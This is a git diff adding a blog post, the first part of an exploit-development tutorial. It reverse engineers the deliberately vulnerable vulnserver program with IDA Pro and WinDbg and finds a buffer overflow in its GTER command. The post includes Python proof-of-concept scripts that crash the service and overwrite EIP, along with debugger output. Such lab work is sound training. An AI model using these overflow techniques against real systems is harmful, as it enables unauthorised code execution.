

config

Changed region(s): [[0.0, 0.0, 1.0, 1.0], [0.5526, 0.7362, 0.8904, 0.7669]]

diff --git a/_posts/2021-05-15-Vulneserver-Reverse-engineering-GTER-with-IDA.md b/_posts/2021-05-15-Vulneserver-Reverse-engineering-GTER-with-IDA.md
@@ -1,0 +1,338 @@
+---
+layout: single
+title: '[VulneServer] - Exploitation Part 1 - Reverse Engineering vulnserver using IDA'
+description: 'This blog post shows how to reverse engineer vulneserver to find a buffer overflow issue in GTER command'
+date: 2021-05-15
+classes: wide
+comments: false
+header:
+  teaser: /assets/images/avatar.jpg
+tags:
+  - IDA Pro
+  - WinDbg
+  - Reverse Engineering
+  - Vulnserver
+  - Exploit Development
+  - API Monitor v2 32-bit
+--- 
+
+
+<p align="justify">
+This article is the first part of an exploit development series regarding the exploitation process of the GTER command of the vulnserver executable. Furthermore, at this article we will analyse the vulnserver executable using WinDbg debugger assisted with reverse engineering techniques using IDA Pro disassembler/decompiler, in order to understand how the binary works as well as to search for vulnerabilities that may lead to exploitation. In this article we will not be focusing on fuzzing techniques, but rather we'll focus in reverse engineering techniques. 
+
+<br><br>
+The tools used for this demonstration are the following</p>
+
+* IDA Pro
+
+* API Monitor v2 32-bit
+
+* WinDbg
+
+Starting our binary analysis, we run API Monitor v2 in order to have a first site about how to perform communication with the vulnserver. 
+
+<img style="display: block;margin-left: auto;margin-right: auto;border: 1px solid red;" src="/Users/xenovas/Documents/xen0vas.github.io/assets/images/2021/04/apimonitor.png" alt="APIMonitor" width="950" height="343" />
+
+<p align="justify">
+As we can see at the image above, when we run vulnserver, we have an overview of the socket functions that we expect. According to msdn, the <b>getaddrinfo</b> function provides protocol-independent translation from an ANSI host name to an address. Following, is the prototype of the <b>getaddrinfo</b> function.</p>
+
+```C
+INT WSAAPI getaddrinfo(
+  PCSTR           pNodeName,
+  PCSTR           pServiceName,
+  const ADDRINFOA *pHints,
+  PADDRINFOA      *ppResult
+);
+
+```
+
+<p align="justify">
+As we see above, the second argument is a pointer to a NULL-terminated ANSI string that contains either a service name or port number which is represented as a string.
+
+Similar information regarding the port number we also get from the <b>ntohs</b> function, which,  in general terms and according to MSDN, converts a <b>u_short</b> from TCP/IP network byte order to host byte order (which is little-endian on Intel processors). The <b>ntohs</b> function can be used to convert an IP port number in network byte order to the IP port number in host byte order. Following, is the prototype of the <b>ntohs</b> function
+
+```C
+u_short ntohs(
+  u_short netshort
+);
+```
+
+Having this information, we can confirm that the server listens on port 9999. As we see below, we are running netcat tool to connect to port 9999</p>
+
+<script id="asciicast-mkwzV0kymb3F0BmRStGe45boN" style="display: block;margin-left: auto;margin-right: auto;" src="https://asciinema.org/a/mkwzV0kymb3F0BmRStGe45boN.js" async></script>
+
+<p align="justify">
+As we see, there are some commands used by the vulnserver that need more investigation. At this point we will perform some research regarding the functionality of vulnserver. We will be using the following poc script in order to send some junk data to the vulnserver.   
+
+</p>
+
+```python 
+#!/usr/bin/python
+
+import os
+import sys
+import socket
+
+host = "192.168.201.9"
+port = 9999
+
+buffer = "A"*5000
+
+s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
+s.connect((host,port))
+print s.recv(1024)
+print "[*] Sending exploit..."
+s.send(buffer)
+print s.recv(1024)
+s.close()
+```
+
+<p align="justify">
+At this point we are ready to run the script above in order to observe the functional behaviour of the vulnserver. For this reason we will be using windbg and IDA Pro. First we will run vulnserver on the target machine and then we will start IDA and attach Windbg as seen below  
+</p>
+
+<img style="display: block;margin-left: auto;margin-right: auto;border: 1px solid red;" src="{{baseUrl}}/assets/images/2021/04/attachwindbg.png" alt="Windbg_Attach_On_IDA" width="650" height="443" />
+
+<p align="justify">
+After attaching the vulnserver process to WinDbg we will be ready to start debugging. As we saw earlier, the application when starts, it binds to a specific port where it listens for incoming connections. All the related functions used to implement the raw socket connection is refered at the <b>ws2_32.dll</b> module. Specifically, one interesting function is <b>recv</b>, which according to msdn has the following prototype, 
+
+```c
+int recv(
+  SOCKET s,
+  char   *buf,
+  int    len,
+  int    flags
+);
+```
+
+The <b>recv</b> function is the first entry point that will be used from the vulnserver in order to receive the bytes coming from the user input. At this point we will put a breakpoint at the <b>recv</b> function as follows 
+</p>
+
+<p align="justify">
+We start by seting a breakpoint at the <b>recv</b> function using the command <code><b>bp ws2_32!recv</b></code>
+</p>
+
+<img style="display: block;margin-left: auto;margin-right: auto;border: 1px solid red;" src="{{ site.baseurl }}/assets/images/2021/04/breakpoint-ws2_32.png" alt="bp-ws2_32" width="450" height="143" />
+
+<p align="justify">
+Once we run the poc script, we immediately hit the breakpoint in <b>WinDbg</b> which is set at <b>recv</b> function inside the <b>ws2_32.dll</b> module. 
+</p>
+
+
+<img style="display: block;margin-left: auto;margin-right: auto;border: 1px solid red;" src="{{ site.baseurl }}/assets/images/2021/04/windbg-bp-recv.png" alt="bp-windbg-hit" width="650" height="243" />
+
+<p align="justify">
+Moreover, <b>recv</b> function is not of much interest at this time, so we will continue execution until return from <b>recv</b> function. After returning from <b>recv</b> we will land to the address <code>0x00401958</code>
+</p>
+
+<img style="display: block;margin-left: auto;margin-right: auto;border: 1px solid red;" src="{{ site.baseurl }}/assets/images/2021/04/landing-address.png" alt="bp-windbg-hit" width="750" height="400" />
+
+<p align="justify">
+Now, lets try to understand the code portion marked with the red square as seen at the screenshot above. First, <b>esp</b> register will reserve some space on the stack, specifically <b>10h</b> ( 16 bytes in decimal ), in order to put there the value pointed at the address referred at <b>[ebp-410h]</b> , which moved there using the <code>mov [ebp-410h], eax</code> instruction. The hex value 0x1000 that stored onto the stack at the address <b>0x0103fb60</b> is the return value of the <b>recv</b> function, which shows clearly that 4096 bytes have been written to the buffer, and this also indicates that there are data coming from user input. 
+
+So, as we now see at WinDbg debugger the value <b>0x1000</b> is stored in address <b>0x0103fb60</b> on the stack. 
+</p>
+
+```
+WINDBG>dd ebp-410h L1
+0103fb60  00001000
+```
+
+<p align="justify">
+Then the instruction <code>cmp dword ptr [ebp-410h], 0</code> will compare the value pointed by <b>[ebp-410h]</b>, with value <b>0</b>, and if the value is less than or equal to <b>0</b>, then the program flow should be redirected to the location <b>loc_4024B6</b>. Also, as we see at the screenshot below, if there is a redirection of the execution flow to the location <b>loc_4024B6</b>, the connection with the <b>vulnserver</b> would be closed. 
+</p>
+
+<img style="display: block;margin-left: auto;margin-right: auto;border: 1px solid red;" src="{{ site.baseurl }}/assets/images/2021/04/loc_4024B6.png" alt="loc_4024B6" width="650" height="243" />
+
+<p align="justify">
+At this point we won't be redirected to <b>loc_4024B6</b>, and the execution flow will continue as is. If no data returned from <b>recv</b> function, then the socket connection would be closed. The following graph from IDA depicts the case where the execution flow would be redirected to the location <b>loc_4024E8</b> ,following the termination of the socket connection. 
+</p>
+
+<img style="display: block;margin-left: auto;margin-right: auto;border: 1px solid red;" src="{{ site.baseurl }}/assets/images/2021/04/Graph-loc_4024B6.png" alt="loc_4024B6" width="650" height="243" />
+
+
+<p align="justify">
+Now, lets explain the following code portion inside the red square as seen at the screenshot below.    
+</p>
+
+<img style="display: block;margin-left: auto;margin-right: auto;border: 1px solid red;" src="{{ site.baseurl }}/assets/images/2021/04/landing-address-2.png" alt="bp-windbg-hit" width="750" height="400" />
+
+<p align="justify">
+As we see at the assembly code above, some values are placed on the stack in order to be placed at the <b>strncmp</b> function as arguments later. One interesting instruction we see on IDA is the <code>call near ptr unk_402Db8</code>. This instruction specifies a near call to a relative address of the next instruction that as we see below it contains a jmp instruction to an offset which points to <b>msvcrt_strncmp</b> function. 
+</p>
+
+<img style="display: block;margin-left: auto;margin-right: auto;border: 1px solid red;" src="{{ site.baseurl }}/assets/images/2021/04/strncmp.png" alt="bp-windbg-hit" width="650" height="300" />
+
+
+<p align="justify">
+Specifically, the immediate value 5 is placed on the stack at address referred by <code>[esp+8]</code> which indicates the length of the <b>"HELP "</b> command including the white space. Then the <b>"HELP "</b> string is placed on the stack at an address referred by <code>[esp+4]</code>. then the string from user input will be places on the stack at position referred by <code>[ebp-10h]</code>. 
+<br><br>
+Lets see the arguments of <b>strncmp</b> function in WinDbg 
+<br><br>
+Below we see the address that holds the immediate value 0x5 on the stack
+</p>
+
+```
+WINDBG>dc esp+8 L1
+00edf9d0  00000005  
+```
+The second argument ( the string ( "HELP ")
+
+```
+WINDBG>dc 00404244 L2
+00404244  504c4548 00000020                    HELP ...
+```
+
+The third argument ( the user input )
+
+```
+WINDBG>dc poi(ebp-10h)
+00cd48e0  52455447 41414120 41414141 41414141  GTER AAAAAAAAAAA
+00cd48f0  41414141 41414141 41414141 41414141  AAAAAAAAAAAAAAAA
+00cd4900  41414141 41414141 41414141 41414141  AAAAAAAAAAAAAAAA
+00cd4910  41414141 41414141 41414141 41414141  AAAAAAAAAAAAAAAA
+00cd4920  41414141 41414141 41414141 41414141  AAAAAAAAAAAAAAAA
+00cd4930  41414141 41414141 41414141 41414141  AAAAAAAAAAAAAAAA
+00cd4940  41414141 41414141 41414141 41414141  AAAAAAAAAAAAAAAA
+00cd4950  41414141 41414141 41414141 41414141  AAAAAAAAAAAAAAAA
+[..SNIP..]
+```
+
+<p align="justify">
+Afterwards, when the arguments placed on the stack, a call to <b>strncmp</b> function is done, which then returns the hex value <b>0xFFFFFFFF</b> on <b>eax</b> register as seen in WinDbg output below
+</p>
+
+```
+WINDBG>r
+eax=ffffffff ebx=00000100 ecx=00000048 edx=00000000 esi=00401848 edi=00401848
+eip=004019f1 esp=0109f9c8 ebp=0109ff70 iopl=0         nv up ei ng nz ac pe cy
+cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00000297
+vulnserver+0x19f1:
+004019f1 85c0            test    eax,eax
+```
+
+<p align="justify">
+The returned value stored at <b>eax</b> is an indicator that the two strings are not equal. If we want to inspect the results further, we can observe the global flags <b>CF</b> and <b>ZF</b> on IDA Pro. Specifically the <b>CF</b> flag has the value 1 and the <b>ZF</b> has the value 0 which indicates that the source string ( the user input ) is bigger than the destination string ( src > dst ). 
+</p>
+
+<img style="display: block;margin-left: auto;margin-right: auto;border: 1px solid red;" src="{{ site.baseurl }}/assets/images/2021/04/return-strncmp.png" alt="bp-windbg-hit" width="350" height="350" />
+
+<p align="justify">
+At this point as we also see at the image below the execution flow will be forwarded to the location <b>loc_4019D6</b> 
+</p>
+
+<img style="display: block;margin-left: auto;margin-right: auto;border: 1px solid red;" src="{{ site.baseurl }}/assets/images/2021/04/4019d6.png" alt="bp-windbg-hit" width="650" height="350" />
+
+<p align="justify">
+Afterwards, when the comparison with <b>"HELP"</b> won't match, we will land to the location <b>loc_401A4B</b>. At this point we see that there is also a string comparison with  <b>"STATS"</b> and then, if there is again no match, the same code pattern will be repeated at the next code portion in order to compare with the string <b>"RTIME"</b>, and so on and so forth, until all vulnserver commands will be checked. 
+</p>
+
+<img style="display: block;margin-left: auto;margin-right: auto;border: 1px solid red;" src="{{ site.baseurl }}/assets/images/2021/04/rtime.png" alt="bp-windbg-hit" width="650" height="350" />
+
+<p align="justify">
+At this point we realize that there is a pattern of string comparison with all possible commands offered by the vulnserver. Specifically, the execution flow will continue in the same way until we match the string <b>"GTER"</b>. From the following WinDbg output, we see that the <b>eax</b> register holds tha value 0x00000000, which is the return value from <b>strncmp</b> function and indicates that there is a match with <b>"GTER"</b> string.    
+</p>
+
+```
+eax=00000000 ebx=00000100 ecx=0040444e edx=00000005 esi=00401848 edi=00401848
+eip=00401fe9 esp=00e6f9c8 ebp=00e6ff70 iopl=0         nv up ei pl zr na pe nc
+cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00000246
+vulnserver+0x1fe9:
+00401fe9 0f85aa000000    jne     vulnserver+0x2099 (00402099)            [br=0]
+```
+
+At this point we will not take the jump (JNE) to address <b>0x00402099</b> on the stack. Alternatively, the execution flow will continue to address <b>0x00401FEF</b> as seen at the image below. 
+
+<img style="display: block;margin-left: auto;margin-right: auto;border: 1px solid red;" src="{{ site.baseurl }}/assets/images/2021/04/GTER.png" alt="bp-windbg-hit" width="650" height="550" />
+
+At this point as we see at the following screenshot that there is a call to malloc function ( <b>loc_402DC0</b> ), which allocates 180 bytes (0xb4). 
+
+<img style="display: block;margin-left: auto;margin-right: auto;border: 1px solid red;" src="{{ site.baseurl }}/assets/images/2021/04/malloc-1.png" alt="bp-windbg-hit" width="700" height="40" />
+
+If we follow the <b>loc_402DC0</b>, we will see that there is a jump to the offset <b>off_406198</b> which indicates the call to malloc as seen at the image below 
+
+ <img style="display: block;margin-left: auto;margin-right: auto;border: 1px solid red;" src="{{ site.baseurl }}/assets/images/2021/04/malloc-2.png" alt="bp-windbg-hit" width="700" height="100" />
+
+After some instructions, we see that there is a call to <b>loc_4017CE</b> 
+
+ <img style="display: block;margin-left: auto;margin-right: auto;border: 1px solid red;" src="{{ site.baseurl }}/assets/images/2021/04/strcpy-1.png" alt="bp-windbg-hit" width="700" height="100" />
+
+If we continue the execution we see the following code 
+
+<img style="display: block;margin-left: auto;margin-right: auto;border: 1px solid red;" src="{{ site.baseurl }}/assets/images/2021/04/strcpy-2.png" alt="bp-windbg-hit" width="500" height="200" />
+
+<p align="justify">
+After some instructions, we see at the address <b>0x004017D7</b>, when the <code><b>mov eax, [ebp+8]</b></code> executes, the <b>eax</b> register holds the user input, which will be copied using the <b>strcpy</b> function. The remaining 4820 bytes that sent from the poc script will be cut off because the copy to the destination exceeded the memory boundaries that have been set using the malloc function before.   
+</p>
+
+```
+WINDBG>dc eax L30
+00ce48e0  52455447 41414120 41414141 41414141  GTER AAAAAAAAAAA
+00ce48f0  41414141 41414141 41414141 41414141  AAAAAAAAAAAAAAAA
+00ce4900  41414141 41414141 41414141 41414141  AAAAAAAAAAAAAAAA
+00ce4910  41414141 41414141 41414141 41414141  AAAAAAAAAAAAAAAA
+00ce4920  41414141 41414141 41414141 41414141  AAAAAAAAAAAAAAAA
+00ce4930  41414141 41414141 41414141 41414141  AAAAAAAAAAAAAAAA
+00ce4940  41414141 41414141 41414141 41414141  AAAAAAAAAAAAAAAA
+00ce4950  41414141 41414141 41414141 41414141  AAAAAAAAAAAAAAAA
+00ce4960  41414141 41414141 41414141 41414141  AAAAAAAAAAAAAAAA
+00ce4970  41414141 41414141 41414141 41414141  AAAAAAAAAAAAAAAA
+00ce4980  41414141 41414141 41414141 41414141  AAAAAAAAAAAAAAAA
+00ce4990  41414141 00000000 3df6ae3b 00002a68  AAAA
+```
+
+then, the function <b>strcpy</b> will be called using the instruction <code><b>call loc_402DC8</b></code>
+
+
+<img style="display: block;margin-left: auto;margin-right: auto;border: 1px solid red;" src="{{ site.baseurl }}/assets/images/2021/04/strcpy-3.png" alt="bp-windbg-hit" width="700" height="150" />
+
+
+at this point, if we continue the execution, the program will crash, and the following screenshot will be provided at the stack view in IDA Pro. 
+
+<img style="display: block;margin-left: auto;margin-right: auto;border: 1px solid red;" src="{{ site.baseurl }}/assets/images/2021/04/stack-view.png" alt="bp-windbg-hit" width="350" height="500" />
+
+Now that we know the presence of a buffer overflow vulnerability, we should coninue further and write a poc script in order to control the <b>EIP</b> register. As we also see at the stack view in IDA Pro, when the program crashed, the stack pointer ( <b>esp</b> resister ) stopped at the address <b>0x00EAF9C8</b>. With this in mind, we will create the following poc sctipt 
+
+
+```python
+#!/usr/bin/python
+
+import os
+import sys
+import socket
+
+host = "192.168.201.9"
+port = 9999
+
+buffer = "A"*151 + "B"*4 + "C"*20
+
+s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
+s.connect((host,port))
+print s.recv(1024)
+print "[*] Sending exploit..."
+s.send("GTER " + buffer)
+print s.recv(1024)
+s.close()
+```
+
+If we execute the above script, we will see that we control the EIP register.
+
+``` 
+WINDBG>r
+eax=012cf928 ebx=00000100 ecx=00ec4998 edx=00000000 esi=00401848 edi=00401848
+eip=42424242 esp=012cf9c8 ebp=41414141 iopl=0         nv up ei pl zr na pe nc
+cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00010246
+42424242 ??              ???
+```
+
+We also see the same results in IDA Pro as follows 
+
+<img style="display: block;margin-left: auto;margin-right: auto;border: 1px solid red;" src="{{ site.baseurl }}/assets/images/2021/04/RIP.png" alt="bp-windbg-hit" width="350" height="300" />
+
+At this point we can continue with the exploitation of the buffer overflow vulnerability in order to gain a shell. All of these will be shown at a second part of this article.   
+
+
+
+
+
+
